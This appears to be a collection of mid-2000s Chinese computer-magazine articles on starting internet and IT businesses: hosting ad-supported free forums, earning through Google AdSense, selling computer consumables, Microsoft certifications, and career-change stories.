为了更清晰地描绘一下赚钱的途径和步骤，我画了一个“业务关系流程图”，见图1。如果想了解网站的幕后技术问题，比如：虚拟服务器、ASP动态网页等，可参考本刊《五分钟搭建WEB服务器和论坛》一文。



## 准备工作

确定了模式后，我四处考察了一下，确定了一家较有名气的ISP，租用了一台服务器(价格为20000元/年)，然后上中国万网(http://www.net.cn)申请了一个国际域名，费用为120元/年。这里要说明一下，大家在选择ISP时一定要看它的资质，最明显的是规模，不要一味地看报价有多低，也别相信给你乱说的“百兆独享”，选择一个有信誉的百兆共享机房就已经不错了。这对我们开展服务是至关重要的，你想想，当你提供的服务经常出现连接不稳定等情况，别人还会选择你吗？紧接着开始制作网页。当时我是自己制作的ASP动态网页，在这里大家可以用网页三剑客制作，很方便。如果觉得太难也可以用Office组件里的Frontpage制作，再制作一些宣传图片/flash，然后将网页上传到服务器里。

下面就是宣传了。俗话说酒好也怕巷子深，不管提供的服务有多么好，别人不知道也没办法。既然要做就做大，我花了1500元去搜索引擎网站做了推广型登录广告，后来证明效果很明显。在这方面大家有多种选择，例如也可以做现在比较火热Google点击广告(如图2)。这种广告的好处就是按照点击数计费，只有点击了才从你交的广告费用中扣除。可以根据自己的需要来选择。

| 广告联盟 | 显示广告 | 点击广告 |
| :--- | :--- | :--- |
| 网易广告联盟 | 4元/1000IP | 按点击计费 |
| Google广告 | 无 | 按点击计费 |

以上这些前期准备工作，我一共花费了2万多元。

## 免费服务也赚钱

### 开张

下面就是我开张的时候了。在广告发布后自己做了些宣传，例如在各大搜索引擎做常规登录、做友情链接、在学生集中的社区发布消息等。之后陆续有一些用户来使用我的免费服务，第一天有5个用户，第二天8个，到第五天迎来了一个高潮，一天就有100多个用户注册使用各种免费服务。其中申请使用免费论坛的就有80个用户，我在自己的主页上安装了一套统计系统，详细分析当天的浏览人数、IP和来路分析。在来路分析里可以看到这些用户都是从哪里来的，从而有效分析在哪里有大量潜在用户。两个星期后从统计系统中看到花钱投放的广告已经起了明显作用，注册人数达到700人，其中免费论坛有500多个已经在运行，当天服务器IP流量2000多。我提供的其他免费服务也作为辅助带来了大量的访客。

在开张三个星期后我给每个论坛加大10MB空间，同时在论坛顶部做了横栏广告。这时已经有1500个论坛在我的服务器中运行，同时在线人数达到8000人左右。对于互联网来说，访问量就是一切，现在是我开始赚回投资的时候了！我选择了一家广告商，他们是按照每1000个IP显示量付费的。我当时的价格是3元/1000IP，当天就有24元收入。做联盟付费广告的很多，在这里大家可以选的很多，我推荐几个(见下表)。例如现在刚推出的网易广告联盟，有一种显示广告4元/1000IP，就很不错。

论坛下部也有通栏广告，我和一家企业联系后他们给我5000元/年广告费，要求在我旗下所有论坛上放置广告。一个月后我的服务器里已经有3000个论坛、2000多个留言本、10000多的计数器在运行中。这时，在免费论坛的活动IP首次达到30000，一天联盟广告收入90元，当月进行结算论坛顶部广告的收入1400元。进入第二个月已经有5000个免费论坛在运行中，同时在线IP达到了50000。我的5000个论坛上面放置的广告每天都有40000～60000的IP。按照我和广告联盟的合约，由他们每天给我记入3元/1000IP × 50000IP=150元。这时由于服务器已经处于满载状态，为了能让这5000个论坛稳定运行，我不能再新开免费论坛服务了，其他免费服务正常开通。在这里大家要知道一点，论坛在运行的过程中对服务器的压力很大，中途我给服务器又增加了1条512MB的内存。第二个月的广告收入粗略计算为150×30=4500元。

下面再来看看我提供的商业收费服务。我另外租用了一台服务器，费用为7000元/年。由于提供的免费论坛速度和稳定性都不错，论坛站长们一直在使用，其中有些论坛很有人气，每天发贴量可以达到600多贴。但这样也就达到了免费论坛使用的上限了，这时我推出了付费论坛服务。他以前的数据可以给他保留并直接升级为付费论坛，按照他的需要定制。例如一个论坛站长流量超标，需要升级付费论坛，他的要求是200人同时在线，200MB空间，我的收费是一年300元。这个价格比他在外面自己租空间架论坛的价格优惠很多，况且由于我在主页上给他做宣传，论坛后台维护、安全、性能优化全由我来做。我一共做了35个付费论坛，年收入10000多元。在做收费论坛的同时开展了其他收费服务，如个人建站服务/网络存储服务，一年下来收入有4000多元。

## 后记

后来做了一年多时间，因为要学习的原因，中途还一直有朋友给帮忙照看着。就在大家的服务都到期后我关闭了网站。算下来整整1年零2个月，收入70000元多，除去前期投入、意外开支、人力等杂项，纯收入约40000元。

在这个项目中的主要收入在所提供的免费论坛服务上，大家可以根据自己的情况选择投入和你要做的服务。例如你感觉第一次就投入2万元租用服务器有些高，可以选择购买一款规格高一些的虚拟主机(像现在刚推出的1GB空间虚拟主机)来开展服务，其租用费用每年也就几百元，但可以放置100多个免费论坛，等用户多了就可以升级为独立服务器了。如果要租用服务器也并不是非要我的那种20000多的，现在一台P4 2.8GHz、512MB内存、160GB硬盘的服务器，租金也就8000元，足可以放置几百上千个免费小型论坛，只要适时注意他们的流量就好。

其实做网络免费服务也并非局限于我上面所说的那几种，大家可以根据自己的情况扩展服务内容。例如提供免费电影下载，但每个会员必须点击广告才能观看；或者你可以和一些大网站联系，例如淘宝的广告联盟就是凡是推荐注册一个淘宝用户，就给10元。你可以在免费电影网站上做限制，注册淘宝的会员可以下载10部电影。这样，只要有5000个用户去淘宝网注册，就有50000元收入。如果你再放置一些其他广告，也可以获得不菲的收入。

在网站上，只要发挥自己的想象力，你就可以找到自己的赚钱之路！

| 广告联盟名称 | 说明 | 网址 |
| :--- | :--- | :--- |
| Google Adsense | 添加google广告代码,如果有访问者点击这些广告,Google就会向您付费 | https://www.google.com/adsense/?hl=zh_CNsohu |
| 竞价联盟 | 将竞价广告代码放到站上,只要有人点击,您就可以获得收入。每日的点击量根据流量的大小会有一定的限制, 每月付款 | http://cpc.sohu.com/sohucpc/union |
| 淘宝 | 放置其淘宝的广告代码,当有人点广告免费注册成为淘宝会员后,您就可以获得10元/人的推荐费 | http://www.iplus.com.cn |
| 网易联盟 | 显示、点击等多种形式 | http://union.163.com/ |
| 265流量交易 | 一个综合的流量交易平台, 您可以在上面买卖流量 | http://union.265.com |
| 当当网站联盟 | 通过放置当当网站代码, 当有人通过你的代码在当当网购买商品, 您可以获得10%的销售额提成 | http://www.dangdang.com/league/lianmeng.asp |

能创业！
最后需要说明几点：
1. 你所提供的服务一定要保证稳定和长期服务的承诺，决不能三天两头打不开。诚信是本！
2. 放置的广告要注意雅俗共赏，忌讳放一些短信之类的。因为你所提供的服务是大众化的，也包括未成年人。广告不易太多，以不大影响视线为原则。
3. 要推陈出新，你会这样做，别人也会。我做时也有两家在做，但是我经常变换形式，增加新的服务项目，对积极用户进行奖励。例如我曾搞过积极用户评比，给他们奖励U盘等奖品，拉动人气。
4. 必须一直有专人每天在线服务，及时处理可能出现的问题，我做时是有个朋友给一直帮忙照看。
下表是一些有信誉的广告联盟，大家可以作为参考。
以上是我第一次依靠互联网创业的一点体会，可能还有不成熟的地方，如果你有什么疑惑可以和我邮件联系 pulang@vip.sina.com

## 认证指导：微软认证篇

让我拥有更专业的技能

微软认证考试是微软公司推出的计算机高级技术人员认证考试，是全球公认的计算机软件高级人才认证。由比尔·盖茨签发的证书在全球90多个国家均得到承认。微软认证证书代表着企业及个人技术实力，其拥有者在全球各地均有机会享有高就业机会、高薪待遇，学生还可以免相关学业学分，甚至北美一些国家可以作为外来移民的技术评估标准之一。

-   1. MCSE
微软认证系统工程师(Microsoft Certified Systems Engineer)。此证书获得者将有能力为使用Microsoft Windows NT Server和Microsoft BackOffice的用户提供有效的系统规划、系统实现、系统维护和信息系统的支持。
可应聘岗位:系统工程师、技术支持工程师、系统分析师、网络分析师等。
点评:MCSE涉及的课程由于是我们常用的操作系统，目前这项认证比较火，原因不外乎它是基础的微软认证。虽然理论上说传统企业和IT企业都需要系统工程师来维护自己的IT网络，而这个认证就是专门针对这类工程师的，但由于在实际学习过程中，流于形式的应试型认证和较低的进入门槛，使它的含金量大大降低。实际上，在真正的招聘过程中，很少有企业会对MCSE证书非常感兴趣。但这并不意味参加这个认证考试毫无意义，对于不少在校学生、已经就业但对微软操作系统还不是很熟悉的人来说，通过它系统地了解和掌握自己将来每天都要和它打交道的工具，即使不拿证书也是值得的。毕竟这项认证的价格不贵。

-   2. MCSD
微软认证开发工程师(Microsoft Certified Solution Developer)。此证书获得者将有能力为微软软件开发工具(数据库系统、应用程序设计软件等如MS SQL Server、Microsoft Visual Studio、Microsoft Transaction Server)建立基于分布式网络环境下的商业化应用。
可应聘岗位:程序员/系统分析员、软件应用专家等。
点评:这项认证考试内容主要是微软的各种编程工具，比如VFP、VB、VC等。通过它可以大大提高你的编程能力。对于想进入企业从事程序开发的人员来说，获得此项认证是比较有价值的。不过，这个认证也存在进入门槛不够高，竞争过于激烈的局面。而且，程序员招聘中在实战经验和协作能力，这个证书在求职时的用处也不大可能是决定性的。不过，目前我们国家仍然非常紧缺真正有实力的程序员，如果能跳出获得证书这个思路，通过认证过程花一番心思来提高自己的编程水平，倒也不失为一条好思路。

-   3. MCP
微软认证专家(Microsoft Certified Professional)。此证书获得者需要在微软某产品方面有一定专长，他们还可以通过参加其他微软认证考试来进一步加强其使用微软软件产品的能力。例如其有微软认证专家(Microsoft Certified Professional)+网站建立(Site Building)。此证书获得者将有能力使用微软公司的技术和产品去设计、建立、管理和维护站点，特别是建立交互式的页面、多媒体数据库和搜索引擎。
可应聘岗位:网站管理员、网站制作员等。
点评:不光是网站制作和管理MCP还有其它认证的软件项目，关键还是要看你自己的选择了。目前这项认证是微软比较重视的面向最终用户的一种认证，只要你对某种微软产品的研究程度达到了一定的级别，就有可能获得这MCP的称谓。微软为全球的MCP提供了完备的沟通交流体制，可以说这是一个很有“人气”的认证。进入“MCP圈”之后，个人的知名度将极大提高，这对自己在供职领域类的竞争力是非常良好的宣传。

-   4. MCDBA
微软认证数据库管理员(MCDBA)证书是为那些实现和管理SQL Server数据库的专家准备的高级认证。通过获得高级MCDBA证书，个人可以证明自己拥有领导企业成功地设计、实现和管理Microsoft SQL Server数据库所需的技能。
可应聘岗位:数据管理员、数据库设计师等。
点评:大容量数据库技术越来越普及了，像银行、电信、网站这种大企业，其业务的技术支柱可以说就是大型数据库，而且都需要专职的数据库管理人员。同时，随着数据库的应用普及，对数据库管理人员的需求必然呈上升趋势。目前此领域的人才仍然处于“卖方市场”的态势，从业者的收入明显高于其他技术工种。
不过，这个认证的专业性和对实践的要求是非常强的。由于目前的数据库都和网络有着密切的联系，需要比较综合的能力，没有日常的应用环境，只靠学习就拿证的难度非常大。而且这项认证的费用相对较高，并不适合所有“有志者”。这个认证比较适合有相关从业经验的系统管理员学习，凭借这经验，可以将该证书的功能发挥之极限！

-   5. 其他培训
除了前面几个比较专业的针对技术工程师的认证外，目前还有一些针对办公一族的Office软件专门课程。不仅可以学习全套Office软件，还能挑选一些课程来学习。这种学习通常对于绝大多数求职来说，是一个不错的提高办公软件使用技能的途径。目前稍微正规一些的大公司，甚至中小企业都在大量使用Excel、PowerPoint和Project来完成日常办公。而且，随着我们国家开放程度越来越高，与国际接轨的程度和范围将进一步扩大，这类认证虽然不一定以取得证书为目标，但它确实是提高自身技能和职场竞争力的资本之一。

## 别对对手鼓掌

广告部人手紧缺，公司在报纸上刊登招聘启事：本科以上学历，有一年以上工作经验。但老总有更重要工作缠身，于是将我推上了面试主考官的位置。老总一再说相信我的眼光，面试内容和形式由我来定。
首先将学历不符、工作经验不够的求职者排除在外，然后一一通知大家在周日来面试。面试没有设在老总办公室或会议室，而是在大家平时打乒乓球或唱卡拉OK的活动室。我没像通常的面试让求职者单独接受考核，而是将所有人统统请了进来。
音响打开后，我让求职者每人唱一首歌，以歌声来定去留，大家的掌声是评判的一个标准。各位的歌唱得有好有坏，但是掌声却少得可怜。最滑稽的是一位姓林的女孩子，唱着最近流行的《美丽心情》，走调走得匪夷所思。林小姐不仅没得到大家的掌声，还被大家嘲笑不已。我宣布面试结束，让所有人在走廊等待结果时，隐约听到有人说，林小姐机会最小，还劝她提前离开。
不过，显然林小姐并不灰心，我出来时依旧看到了她。我郑重地宣布：本公司决定聘用林小姐。我话一落音，一群求职者闹开了，说我未能公平对待大家，选人的标准有偏差。本来，我不想做什么解释，但是考虑到求职者也不容易，于是我重新将大家请进活动室。
我心平气和地说出自己选林小姐的理由：在大家唱歌的时候，只有林小姐有选择性地鼓掌。给对方掌声是对对手的一种赞赏，甚至会让对手拥有发展的良机。适当肯定自己的伙伴或对手，那是一种宽容大度的表现。惟独这样才能催进自身的发展，更好地完成工作。当大家嘲笑林小姐并劝她离开时，她却坚持到最后，又是对本公司尊重和对自己有信心的表现。所以，我们决定选优秀的林小姐。
我的解释让所有的求职者心服口服，老总后来也肯定了我的选人大法。而事实证明，林小姐确实是不错的员工，在后来的工作中做出了不错的成绩。


故事人物：
王华，31岁，大专学历，结婚四年，孩子三岁，原为家庭主妇，现在一家室内设计公司任室内设计师

## 从家庭主妇到室内设计师

### 重操鼠标，去上学

我很喜欢搞设计，做个室内设计师一直都是我的梦想，况且我学过美术，专业技能还是不错的，在学校里成绩也算比较优秀，设计的作品曾经被学校收藏。但是现在无论是什么设计都必须要用电脑，因为电脑设计出的作品更精确，更富有表现力，而且效率比手绘提高了不知多少倍。虽然我也懂点电脑基本操作，但是对Photoshop、3ds max等设计类专业软件却一窍不通，要想搞设计这一行，无疑要从头再来。

恰好，北京八维电脑学校在我们这里刚开设了一个分校，我就报了名，参加了那里的室内设计电脑培训班。当时正逢三伏天，酷热难耐，学校里条件简陋，也没有空调，只有几个破风扇在头上忽忽悠悠吹着热风。一下午下来，往往衣服都要湿透了。开始的时候，学的是Photoshop，这是所有搞设计的人必修的课程，入门很简单，因此学得还算比较顺利。到了后来，开始学习3ds max，这种软件要求有立体空间感觉，否则你很难弄懂各个方位、各个角度的变化。老师讲得很快，我一边做笔记，一边上机实习，全神贯注，当时还不觉得怎样，一节课下来，真的是疲惫不堪。因为我这也算是第二次上学，所以非常珍惜这次机会，白天听课，晚上回家还要再把白天学的东西练习一遍。就这样，辛辛苦苦学习了三个月，当学完最后一门AutoCAD就算正式结业了。

### 欲找工作，受挫折

近几年由于房地产热一直持续高温不降，买房子的人很多。买了房子就需要装修，因此随便走进一个新小区，到处是一片繁忙的景象，每家每户都在忙碌着构筑美化自己的小家。前几年装修房子的时候，也没有什么室内设计师。按照惯例都是到别人家已经装修好的房子去参观一下，然后找一帮木匠按照样板房装修的布局大体上定下来风格，或者干脆就由木匠师傅兼任设计师，简单沟通一下直接干就是了。因此那时候的房子，十有八九装修风格是一个模板下来的。这种情况到近几年才开始发生转变，大家做什么都要讲究个性化，强调与众不同。在装修房子上面人们的观念也和以前不同了，也要个性化设计，绿色健康的居住环境。这样很快一家室内设计公司如雨后春笋般涌现出来，室内设计师这个职业也悄然兴起。
我结业以后第一件事情就是要找工作。在我们这个小城，室内设计公司大约有十几家，比较大的、口碑比较好的只有四五家。很多公司都有招聘室内设计师的广告，我通过

电话联系了一家，这家公司叫做“归心居”，是从青岛的著名室内设计公司“平和堂”出来另立“山头”的，两位老板都是三十左右的年轻人。经过简单沟通，对方约了个时间我就过去了。见面以后我把自己的实际情况和他们详细说了一下，然后拿出我设计的作品，让他们看了看。其中一个老板说：“你的美术基础很好，3D运用的立体感也不错，不过做我们这一行最重要的是要能把握住现在流行的室内设计风格，你现在的作品已经过时了。”接着拿出了几个最近他们公司设计的作品，我一看就傻了眼，这些作品设计得非常有现代感，而且每一幅极具个性化，我的作品比较之下就显得非常“老土”了。这一下，严重打击了我的信心。看来，仅仅只是打好了计算机设计和美术的功底，要想真正适合职业的需求，还是有很大差距的。回到家后的几天是我最煎熬的日子，吃饭也不香，睡觉也不甜，嘴角也生了疮，觉得以前学的东西都是白学了，怎么办呢？

### 静心准备，再出山

看到我这个样子，丈夫也是急在心里。他给我买回了几本室内设计的书，让我这几天再好好看看书，不要着急找工作，先静下心来研究一下目前室内装修流行的风格。后来又找来几套房子的尺寸，让我试着做做。我也静下心来认真想了想：我的3D技术是没有问题的，也得到了那家设计公司老板的认可，只是在学校里学的东西毕竟是“死”的，而拿到实际当中就要用“活”。设计要把流行元素、自己的设计理念结合起来，再配上计算机辅助设计和美工能力才能拿出精品。
于是接下来的几周我也不出去应聘了，看书、看房子、看设计，仔细琢磨研究，然后回来做一做。经过这一阶段的学习，果然是很有心得，真正体会到了目前的流行设计趋势和风格。之后我精心设计了一套房子，把打印出来的效果图送给了另一家更大的室内设计公司“明珠园”，我是想用作品来说话，表明我的设计风格和能力。没想到很快收到公司打来的电话，经过简单面试，我被正式录用了。

### 设计生涯，终成功

在设计之前，和客户沟通一下是很有必要的，这也是确定设计风格的重要因素。作为一个设计师，虽然设计的作品是把自己的理念灌注进去，但是最终享用它的还是房子的主人。因此客户有什么要求、嗜好、甚至客户的工作、文化层次、品位、修养等等这些因素都要考虑进去，这样才能把客户的要求融合到自己的设计当中。
上班以后，我接的第一个客户是一位退休的老教师。拿来房子的平面图，简单看了一下，这是一套三居室，94.7平方米，框架结构。这位老教师写得一手好字，喜爱艺术、喜欢养花，品位较高。他喜欢温馨自然的家居环境，因此我在做设计的时候，认真琢磨了有关这位老教师的思想和房子结构的信息，设计出了一套方案，在典雅中显示出主人的清新高洁的风格。作品出来以后，客户看到打印出来的效果图（右图）对设计方案和效果非常满意，一个劲地夸赞我，第一个成功的设计作品就这样诞生了。
从此以后我的设计生涯就算正式开始了，过起了朝九晚五的职业生活。由于装修业务具有季节性变化的特点，忙起来的时候常常一个星期不休息，每天对着电脑至少有五六个小时，一天下来工作量也是相当大的，还要跑跑工地，监督工人施工是否严格按设计做。对于装修这一套也要从头到脚全部精通，从准备材料到装修，从预算到施工，在心里都要了如指掌。因为设计出作品以后，只有通过工人们施工才能够最终完成，做设计的时候这其中每一个细节都要考虑到。这些东西都是要靠经验积累而来的，从书本上是根本学不到的。经过了几个月的磨炼，我终于完全适应并喜欢上了这一工作，而且慢慢地在室内设计这个圈子也小有名气了。
作为室内设计师，最重要的工作就是和客户沟通，并且按照沟通的结果不断修改设计图纸。随着自己客户的增加，跑工地的时间越来越多，坐在台式机面前的时间越来越少。因为还要照顾孩子，也不能在公司加班太久。为了更灵活和高效率地满足客户的需求，我终于下定了决心，买了一台笔记本电脑。起初，我自己也不懂，为了贪图方便就买了一台很轻的。结果用了一段时间发现，虽然背着倒是没什么问题了，但运行AutoCAD这些软件实在太慢了。后来咨询了身边的一些专家，他们都告诉我说能满足室内设计要求的笔记本电脑都很重。没办法，为了工作，不得不将那台轻的便宜处理掉了，换了一台很沉的——足足比第一台重了四五斤！每天背着这台电脑去挤公车，那种感觉真是痛苦不堪。不过，这台电脑确实解决了我很大的问题，要不是它，对老公许下的“工作生活两不误”的诺言就要泡汤了。

### 蜕变过后，新自我

从家庭主妇到室内设计师这样一个职业女性，这个蜕变的过程确实需要很大的勇气，背后要付出许多的艰辛和痛苦；也在一定程度上牺牲了很多和家人、孩子共享天伦之乐的时间，也没有了更多的逛街、休闲的时光。但这是每一位投身事业的女性都要付出的，既然选择了工作，就必须全身心投入。
每当我设计一件作品的时候，就是把自己凝聚的精力和思维放在作品里面燃烧，然后作品完成时有一种破茧而出的感觉。一件件作品的诞生就像是一次次重生，不停地刷新着我的生命。付出与收获永远是成正比的，我在这个转变的过程当中重新找回了自信，找回了自己的梦想和事业，也找回了一个全新的自我。
女性在工作上，能力不是最大的问题，目标、自信与决心才是左右奋斗能否成功的重要因素。

(山东 王伟光)



## 小耗材做出大市场

罗荣明：29岁，出生在沿海地区的一个小城。大学毕业后曾在电脑公司做过销售员，后来辞职。2001年自己开了一家经营电脑耗材的小店，经过几年的不懈努力，从一个不到十平米的小店发展到拥有五家连锁店，成为多个品牌耗材的胶东总代理，公司固定资产也由创业初期的5000元达到200万元。

提起创业，相信很大一部分人都会联想到惊心动魄的资金和市场运作，以及辉煌的行业旗帜效应。但事实上，更多的创业者，最初都是为了解决口腹之欲这么简单的生存问题。今天给大家介绍的主人公就是这样一个创业者。

## 跑龙套的销售代表

2000年，罗荣明从一所不知名的三流大学毕业。当时做电脑这一行已经进入了微利时期，在这座只有20万人口的小城里，大大小小的电脑公司遍地都是。拿行内人士的话来说：“卖电脑比卖菜的都多。”罗荣明虽然学的是计算机专业，可是没有一家电脑公司会青睐这个刚出炉的毛头小子，罗荣明应聘了几家公司，答复几乎都是一样：做销售代表，明天来上班吧！看得出来人家对自己根本没什么太大兴趣。但是喜欢电脑的罗荣明还是选择了一家比较大的公司，开始了第一次打工生涯。

但一切都与罗荣明想象中的大不一样，说是销售代表，什么也“代表”不了，说难听一点其实就是一个跑龙套的。公司有事的时候跟着销售主管下去做一些宣传，发发单子；没事的时候给公司里的大哥大姐递茶端水，叫个外卖等。就相当于写字间里的一个officer（办公助理），一段时间下来，罗荣明发现自己在这个公司就像一个局外人，大家都在忙各自的事情，而自己除了发传单，扫扫地，什么都不会做；而且最让他难受的是感觉公司对他这样的人是一种可有可无的态度，多他一个不多，少他一个也不少。罗荣明越干越沮丧，越没有信心。他想再这样下去自己不但会迷失掉方向，实际也在浪费青春，刚毕业时那些满腔抱负、对未来充满憧憬的激情迟早也会被这种枯燥的日子磨平。在这家电脑公司做了不到一年的时间，终于有一天他辞职了。

## 无业游民“游”出新路子

辞职那段时间，确实是一段难熬的日子，二十多岁的大小伙子，整天待在家里，不用父母说，罗荣明自己也觉得难受。期间罗荣明也想过再重新找家公司试试，可是找来找去，都是那个样子，想想以前在那家公司的日子，再也不想重复了。罗荣明也想过自己创业，可如果还想要干这一行，卖电脑显然不行，怎么办呢？罗荣明在焦灼中整天游荡于电脑公司、科技市场，有时也帮朋友打个短工，倒卖点软盘之类的东西，这样至少使自己不会脱离飞速发展的IT行业。

在这期间他发现，这所小城市里很多电脑公司只经营电脑或者其配件的销售，而专门经营像软盘、色带等耗材的公司却寥寥无几，即使比较大一点的电脑公司在耗材上也从来不压货，有客户要就到市场上去调，或者从外地发货。他想：现在办公用的电脑已经趋向了饱和，机关、企事业单位几乎每天都要用到软盘、打印纸、传真纸、色带、墨盒、碳粉、硒鼓等等这些耗材，而目前电脑公司的这种耗材经销方式显然不会令客户满意的；虽然色带、软盘等这些耗材很不起眼，但也许正是因为它的“小”，很多电脑公司不屑于去专门经营。有句名言说的好：“没有小商品，只有小生意”。也许小小的耗材正是创业的目标呢！想到这里，罗荣明决定了：自己创业，搏一把！

## 客户是这样“磨”出来的

2001年春天，罗荣明从父母那里借来五千块钱，一个人到北京去进货，联系好几家耗材批发商，然后就让跑北京的人快运发货。随后在科技市场周围租了一个不足十平米的小房子，“新世纪耗材”就算正式开业了。开始时，每天上门的客户很少，几张软盘、两根色带常常就是一天的销售业绩，那是因为他的店面实在是太不起眼了，也没有固定的客户。没有办法，罗荣明一边托朋友照顾店面，一边自己出去跑业务。

耗材的使用大户都是机关企事业单位，但是他们往往已经形成了到固定的商家进货的习惯，要想插进去，确实很困难。罗荣明决定用泡蘑菇的办法一家一家地进攻。到了一个单位先找到打印室或办公室，自我介绍一番，接着在那里磨上半天嘴皮子，但是人家可能什么都不买。尽管如此，罗荣明也不死心，一次不行两次、三次，不厌其烦地往那里跑，罗荣明有句话：“生意不成，混个脸熟也行”。有时恰好那些单位的电脑出现了一些故障，罗荣明就自告奋勇帮他们免费修理电脑，这样慢慢下来，有的单位碍于面子或被他的热情打动，开始多多少少地买了一点耗材，这让罗荣明欣喜若狂。他马上告诉每一个客户：不管你们是要什么东西，即使是一根色带、一张软盘，我也保证一个电话市区内十五分钟一定送到，并且需要安装的免费安装。为了这个承诺，半年的时间，罗荣明那辆崭新的“山地自行车”愣是被他骑坏了。

## 没有利润也要坚持

有了一些客户，罗荣明干得更有劲了。不过一个人总是跑不过来了，于是他就找了三个人专门负责送货。其实那个时候，凭罗荣明公司目前的实力，根本雇不起人，虽然看起来每天要货的电话很多，但数量往往都很少，大的订单还是掌握在一些老牌的电脑公司手中。一个月算下来，除了付房租，给工人工资，剩下的钱还不够自己出去打工挣的多。有朋友说了：你真是活雷锋啊，不但义务送货还给社会解决就业呢！面对这些质疑和嘲讽，罗荣明也不去反驳，他有自己的想法：目前还不到赚钱的时候，现在正是创业最关键的时期，我只有提供给每一个客户优质的服务，才能换来良好的口碑和更多的客户，而这些是公司以后能发展壮大的基础，如果仅仅局限于眼前小利，失去信誉，公司也就没有什么前景。因此那个时候虽然是没有多少利润，甚至有两个月还出现过负数收入，罗荣明还是告诉自己，一定要咬牙坚持下来。

这样的公司，缺什么东西，一个电话马上就上门安装。这样便捷周到的服务，为他的“新世纪耗材”赢得了不少口碑。于是像公安局、土地局、国资局、法院等这样比较大的机关也与他的公司有了一些业务。

在与这些部门业务量增加的时候，罗荣明马上想到自己目前的店离这些单位较远，而这些政府机关又相对集中，是不是可以在这些单位周围再开家耗材分店呢？一来可以方便客户，送货更快捷；二来也可以节省自己公司的人力成本，是一举两得的好事情。这样在第二年罗荣明开了家分店，效果正如他所想象，效率高质量优的服务把分店周围大部分政府机关的耗材生意都揽了下来，由此，“新世纪耗材”的名气越来越大了。不久，罗荣明根据不同单位的性质和所在的区域，比如在学校聚集区、企业聚集区、高档写字楼等等，又接二连三地开了四家分店，有针对性地面对不同的客户群体，形成连锁经营。

## 做代理发展壮大

生意越来越火，耗材的销量就越来越大。罗荣明又发现为什么别的电脑公司要的耗材总是到外地进货？自己公司的进货价格虽然比别的电脑公司便宜一点，可是作为批发商这个价格还是不会让人满意。于是他跑北京、上济南直接联系几个耗材经营厂家，经过一番谈判，拿下了“东方色带”、“耐力碳粉”、“立美耗材”等多个品牌的胶东地区一级代理权。这样本地区的电脑公司进货直接到“新世纪耗材”就可以了，价格放到厂家允许的最底线。这样一来，为他的公司又拉来了不少客户，利润虽然是小了一点，可是“薄利多销”始终是罗荣明经营的宗旨之一。

后来政府机关采购所有办公用品都要进行招标，耗材也不例外，商家可以进行自由竞争。谁的商品质优价廉，而且服务到位，就选中哪家公司。罗荣明的“新世纪耗材”也参与了竞标，不出所料，结果他的公司耗材以绝对的价格和服务优势压倒了其他的竞争者，成为本市所有政府机关单位的耗材直接供应商。至此，实际上这个城市耗材市场80%的份额已经掌握在罗荣明的手中，真正把“小”耗材做出大市场了。而罗荣明现在已经是身价过百万、拥有五家耗材连锁店的老板了，从他身上再也找不到那个跑龙套的小伙子的影子了。

谈起以后的发展方向，罗荣明说：“我们公司还是要立足于本市，踏踏实实做好承诺的服务；然后以本地区市场为依托，开拓周边城市的市场份额，争取在新的一年里，在周边每个县级市都开一家‘新世纪耗材’连锁店。逐步形成跨地区的集团公司。”对于罗荣明的宏伟目标，我们除了敬佩，只有祝福他在“小耗材”上能够做出更大的事业。

小编有话：没有不赚钱的生意，只有不会赚钱的头脑。生意无论大小，只要思路对头，都能做出自己的辉煌来。耗材经营在IT这个行当中，算不上一个很主流、很体面的生意，但它的利润却绝非表面上开起来那么不起眼。拿打印机来说，不管激光打印机还是喷墨打印机，其实厂商真正靠卖机器并不能带来很多的经济效益，真正支撑利润大头的，还是墨粉、硒鼓和墨水这种耗材！而且，就拿现在看起来销声匿迹的针式打印机，其实市场对色带的需求依然十分巨大！而且卖耗材对专业知识的要求不太高，客户需求也简单，进入这个行业所需的启动资金也不大。更重要的是，只要使用耗材的机器存在，生意就一定会源源不断地运转！经营耗材生意，基本上就是两条路：要么做批发走量，要么抓住一些大型企事业做长期的上门服务。当然，其中的具体细节，还需要您在进入这个行当之后，慢慢摸索。最后提醒，耗材经营一定要讲良心，莫用假冒伪劣耗材欺诈用户。

{山东 渡朴}

## 赚的就是美元——Google广告创收大行动

曾几何时，“网上赚钱”这个炙手可热的词汇一直停留在大家的脑海。记得在1998年~2000年之间，当时有很多网页点击赚钱、在线时长赚钱等方式炒得火热，而真正赚到钱的人却寥寥无几。笔者从1995年开始上网，当时也一直在想如何通过网络来赚钱，经过多种尝试之后，最终不仅没赚到钱，还赔上时间和精力。如今，Google AdSense让笔者在互联网上挖到第一桶金，第一个月的收入将近200美元。今天我就向大家介绍我是如何通过Google AdSense赚到钱的。

### 什么是Google AdSense？

Google AdSense是Google最新推出的“广告联盟”的另一种形式，Google推出了两种广告形式，第一种是针对内容的AdSense，其英文的全称是AdSense for content；第二种是针对搜索的AdSense，其英文全称是AdSense for search。这两种广告形式网站用户均可以选择，也可以选择其一。

AdSense for content和AdSense for search都是免费广告，操作也非常简单，只需要将Google提供的广告代码投放到网站的相应页面中，Google将会根据从你的网站带来的有效点击次数付费给你。所以我说Google AdSense是一种获取收入的即快速又简单的方法，适合于各种规模网站。

### 1. AdSense for content—针对内容的AdSense

网站的页面上粘贴了AdSense for content中的相应广告代码，该页面在浏览时，将会显示内容及网址及链接（见图1）。Google AdSense就有了一个最大优势区别于其他的广告或网站联盟，就是Google AdSense可以在投放代码的页面上展示与此页内容相关性较高的Google广告，并且这些广告不会过分夸张醒目。由于所展示的广告同用户在你的网站上查找的内容非常相关，所以，即可以为网站的内容增加黏性，又可以为网站带来经济效益，一举两得。

### 2. AdSense for search—针对搜索的AdSense

网站在页面上粘贴了AdSense for search中的相应广告代码，该页面就会有Google的搜索框（见图2），具有搜索的功能。这样使得Google AdSense具有了第二大优势，网站可以利用AdSense for search向自己的网站用户提供Google搜索功能，并通过在搜索结果页展示Google广告获得收入。

Google AdSense是目前国内最红火的“广告联盟”，不仅由于Google的广告系统节约网络宽带和良好的针对性这一独特优点，同时Google在搜索方面的权威影响。

### 申请Google AdSense

Google AdSense的广告代码可以嵌入任何网页。如果你还没有网站的话，可以到68互联免费空间（http://www.68ab.com/）申请50MB HTML免费空间。当然，你也可以使用个人的Blog，把Google AdSense的代码嵌入你的Blog模板中。

如果你做好了加入Google AdSense计划的准备，请访问Google AdSense主页（https://www.google.com/adsense/?hl=zh_CN），并单击“单击此处申请”。填完申请表并提交后，请查阅Google AdSense发送给你的电子邮件，以确认你的电子邮件地址。

